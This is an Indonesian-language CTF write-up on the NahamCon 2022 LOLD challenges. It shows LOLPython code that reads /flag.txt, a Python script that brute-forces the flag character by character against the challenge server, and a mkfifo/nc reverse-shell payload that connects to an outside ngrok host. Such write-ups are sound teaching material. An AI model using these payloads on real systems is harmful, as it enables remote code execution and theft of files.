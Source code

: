 # LOLD
#easy #medium #hard #python

## Target
Source code: [lolpython](lolpython.md)

Untuk menyelesaikan tantangan ini, kita (lagi-lagi) perlu membaca [dokumentasi](https://github.com/KartikTalwar/LOLPython/blob/master/LOLPython.py) software.

Di dalam dokumentasi tersebut terdapat contoh penggunaan untuk menghitung deret bilangan fibonacci:
```python
from datetime import date as DATE 

def FIBBING ( N ) :
    'ITERATE FIBONACCI TERMS LESS THAN N' 
    assert N >= 0 
    # BTW, FIBONACCI LIKE BUNNIES! LOL
    yield 1 
    yield 1 
    I = 1 
    HE = 1 
    while 1:
	I , HE = HE , I + HE 
	if HE >= N :
	    break 
	yield HE 

if __name__ == '__main__' :
    print >>_lol_sys.stderr, 'NOW IZ' , DATE . today ()
    if len(_lol_sys.argv) == 1 :
	N = 100 
    else :
	N = int(_lol_sys.argv[ 1 ]) 
    for I in FIBBING ( N ) :
	print I 
```

```python
IN MAI datetime GIMME date LIKE DATE

SO IM LIKE FIBBING WIT N OK?
    LOL ITERATE FIBONACCI TERMS LESS THAN N /LOL
    SO GOOD N BIG LIKE EASTERBUNNY
    BTW, FIBONACCI LIKE BUNNIES! LOL
    U BORROW CHEEZBURGER
    U BORROW CHEEZBURGER
    I CAN HAZ CHEEZBURGER
    HE CAN HAZ CHEEZBURGER
    WHILE I CUTE?
	I AND HE CAN HAZ HE AND I ALONG WITH HE
	IZ HE BIG LIKE N?
	    KTHXBYE
	U BORROW HE

IZ __name__ KINDA LIKE "__main__"?
    COMPLAIN "NOW IZ" AND DATE OWN today THING
    IZ BIGNESS ARGZ OK KINDA LIKE 1?
	N CAN HAS 100
    NOPE?
	N CAN HAS NUMBR ARGZ LOOK AT 1!!
    GIMME EACH I IN UR FIBBING WIT N OK?
	VISIBLE I
```

## LOLD
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT `/flag.txt`.

- Percobaan gagal running script di lolpython
![](attachments/Pasted%20image%2020220505135001.png)

- Percobaan berhasil running script `print("abc")` di lolpython
![](attachments/Pasted%20image%2020220505135043.png)

- Kita mengetahui bahwa lokasi flag ada di /flag.txt, kita bisa membuat oneliner python:
```python
with open('/flag.txt') as BALD: print (BALD.read())
```

- Secara manual, kita convert code tersebut menggunakan syntax lolpython.
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT BALD OWN read THING !
```

- Untuk mengetes kebenarannya, bisa dicoba secara local terlebih dahulu atau menggunakan `--convert`
```sh
python2 lolpython.py testfile # untuk mencoba menjalankan

python2 lolpython.py testfile --convert # untuk mencoba convert
```

- Dicoba
![](attachments/Pasted%20image%2020220505134904.png)

## LOLD2
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT `/flag.txt`!

- Percobaan running script di Python
![](attachments/Pasted%20image%2020220505141308.png)
![](attachments/Pasted%20image%2020220505141326.png)

- Ternyata, apabila berhasil, output yang dikeluarkan adalah `I RAN IT HURRAYYYY!!!`. Kita bisa membuat one liner python untuk menanyakan pertanyaan benar dan salah.
```python
# menanyakan apakah huruf pertama adalah f
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "f" else WAKAKA
```

- Convert ke versi lolpython
```python
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "f" NOPE WAKAKA
```

- Jika benar
![](attachments/Pasted%20image%2020220505141824.png)

- Coba kita tanyakan apakah huruf pertama adalah c
```python
# menanyakan apakah huruf pertama adalah c
with open("/flag.txt") as BALD :   print("WAKAKA")  if BALD . read()[0] == "c" else WAKAKA

# versi lolpython
WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "WAKAKA" ! IZ BALD OWN read THING LET THE  EASTERBUNNY OK KINDA LIKE "c" NOPE WAKAKA
```

- Jika salah
![](attachments/Pasted%20image%2020220505142215.png)

- Kita mengetahui jawaban benar dan salahnya, kemudian format flag adalah `flag{md5}`. Kita bisa buat script untuk menanyakan karakter satu persatu.
```python
#!/usr/bin/env python3

import socket;
import time;

# nc challenge.nahamcon.com 32341
flag_backup = 'flag{da682dec4bbcad7437bbb875266fda51}'
flag = ''
hostname = "challenge.nahamcon.com"
port = 32341

def netcat(hostname, port, content):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((hostname, port))
    data = s.recv(4096)
    data = s.recv(4096)
    time.sleep(0.5)
    s.sendall(content.encode())
    data = s.recv(4096)
    # print(repr(data.decode()))
    return repr(data.decode())

payloads = [
"f","l","a","g","{",
"0",
"1",
"2",
"3",
"4",
"5",
"6",
"7",
"8",
"9",
"a",
"b",
"c",
"d",
"e",
"f",
"error"
]

for i in range (0, 100) :
    content = 'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE ' + str(i) +  ' OK KINDA LIKE "}" NOPE WAKAKA'
    if netcat(hostname, port, content)[1] != 'E':
        flag += '}'
        break
    else: 
        for payload in payloads :
            # print(payload)
            content = f'WIF open WIT "/flag.txt" ! LIKE BALD?    VISIBLE WIT "wakak" ! IZ BALD OWN read THING LET THE {i} OK KINDA LIKE "{payload}" NOPE WAKAKA'
            # print(content)
            if netcat(hostname, port, content)[1] != 'E':
                flag += payload
                print(flag)
                break
            if payload == "error":
                print(flag)
                raise Exception

print(flag)
```

- Jalankan
![](attachments/Pasted%20image%2020220505143336.png)

## LOLD2, cara lebih mudah
Saat menyelesaikan CTF, kita tidak gunakan ini. Kirain hanya bisa masukin one liner python aja :)

- lolpython untuk reverse shell
```python3
GIMME os
os OWN system WIT "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 2.tcp.ngrok.io 19742 >/tmp/f" OK
```

- Set up netcat listener
```sh
nc -lnvp 4444
```

- Eksekusi di remote machine
```python
cat lol-reverse | nc challenge.nahamcon.com 32659
```

![](attachments/Pasted%20image%2020220505144119.png)

## LOLD3
HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!!

- Dengan cara LOLD2 di atas untuk membentuk reverse shell, sekarang kita bisa cari flagnya dengan `find`
![](attachments/Pasted%20image%2020220505144450.png)

## Source
https://jorianwoltjer.com/blog/post/ctf/nahamcon-ctf-2022/lold
